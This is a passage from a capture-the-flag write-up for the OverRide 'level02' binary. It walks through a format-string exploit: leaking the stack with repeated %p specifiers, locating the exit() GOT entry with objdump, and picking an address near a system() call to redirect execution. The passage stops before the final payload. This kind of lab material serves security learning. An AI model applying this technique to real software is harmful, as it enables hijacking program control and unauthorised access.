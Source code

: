 Like in the [rainfall](https://github.com/naerhy/rainfall), we have to first find where the format string is stored on the stack (in order to find its position relative to the first `printf()` argument).  
As mentionned earlier, the first argument passed to `printf()` is the user input from `[rbp - 0x70]`, which is positionned many bytes away from the top of the stack, where `printf()` will keep iterating after browsing the arguments registers.  
An easier solution exists: using the second user input received with `fgets()` and stored in `[rbp - 0x110]` which, as seen on the diagram, is closer to the top of the stack than the previous one.

We display the contents of the top of the stack with an input full of specifiers.

```bash
level02@OverRide:~$ (python -c 'print("AAAABBBB" + ".%p" * 20)'; python -c 'print("CCCCDDDD")') | ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
AAAABBBB.0x7fffffffe3f0.(nil).0x43.0x2a2a2a2a2a2a2a2a.0x2a2a2a2a2a2a2a2a.0x7fffffffe5e8.0x1f7ff9a08.0x4444444443434343.(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).0x100000000 does not have access!
```

As expected, the string `AAAABBBB` doesn't appear in the returned values because it it is too far away from the top of stack, but we notice the value `0x4444444443434343` which corresponds to the `CCCCDDDD` string stored in `[rbp - 0x110]`. In order to target it, we have to use the 8th specifier.

Now we have to find the address of `exit()` in the GOT.

```bash
level02@OverRide:~$ objdump --dynamic-reloc ./level02 

./level02:     file format elf64-x86-64

DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE 
00000000006011b8 R_X86_64_GLOB_DAT  __gmon_start__
0000000000601248 R_X86_64_COPY     stdin
0000000000601250 R_X86_64_COPY     stderr
00000000006011d8 R_X86_64_JUMP_SLOT  strncmp
00000000006011e0 R_X86_64_JUMP_SLOT  puts
00000000006011e8 R_X86_64_JUMP_SLOT  fread
00000000006011f0 R_X86_64_JUMP_SLOT  fclose
00000000006011f8 R_X86_64_JUMP_SLOT  system
0000000000601200 R_X86_64_JUMP_SLOT  printf
0000000000601208 R_X86_64_JUMP_SLOT  strcspn
0000000000601210 R_X86_64_JUMP_SLOT  __libc_start_main
0000000000601218 R_X86_64_JUMP_SLOT  fgets
0000000000601220 R_X86_64_JUMP_SLOT  fopen
0000000000601228 R_X86_64_JUMP_SLOT  exit
0000000000601230 R_X86_64_JUMP_SLOT  fwrite
```

The target address is `0000000000601228`, and the address of the instruction we wanna call instead is the one right before the `system()` call: `0x0000000000400a85`.
